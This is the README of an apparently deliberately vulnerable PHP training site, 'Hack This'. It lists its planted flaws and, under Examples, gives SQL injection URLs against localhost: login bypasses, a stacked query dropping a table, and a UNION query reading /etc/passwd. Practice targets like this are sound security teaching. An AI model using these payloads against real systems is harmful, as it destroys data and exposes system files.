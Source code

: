 # Hack This
A collection of common web programming mistakes.

This website, when set up and configured, contains a number of vulnerabilities that can be exploited, including:

* SQL Injection
* XSS (Cross-Site Scripting)
* Session Hijacking

## Setup
To set everything up, you'll need to: 

* Import the file `db.sql` into your database
* Modify the file `consts.php` to correspond to your database
* Access the site and get hacking

## Examples
Examples of vulnerabilities in this web application include:

### SQL Injection
In an SQL injection attack, malicious SQL statements are inserted into an entry field for execution (usually in a data-driven web application). 

* Get information for all users: 
    - `http://localhost/index.php?username=leocadio'%20or%20'1'='1`
    - `http://localhost/index.php?username=leocadio'%20or%20''='`
    - `http://localhost/index.php?id=1%20or%201=1`
* Drop (destroy) invoices table: 
    - `http://localhost/index.php?id=1;drop%20table%20invoices`
* Dump the password hash file from the server: 
    - `http://localhost/index.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('/etc/passwd'),'1`
* Dump several things at once (oh boy): 
    - `http://localhost/index.php?username='%20UNION%20SELECT%201,2,3,4,5,'hello%20world`

## Acknowledgements
This is heavily based on the [php-sploits](https://github.com/jadz/php-sploits) repository by [Jared Mooring](https://github.com/jadz) and [Allan Shone](https://github.com/CerealBoy). Find the slides for their [SydPHP](https://github.com/sydphp) talk [here](http://www.slideshare.net/CerealBoy/sydphp-security).

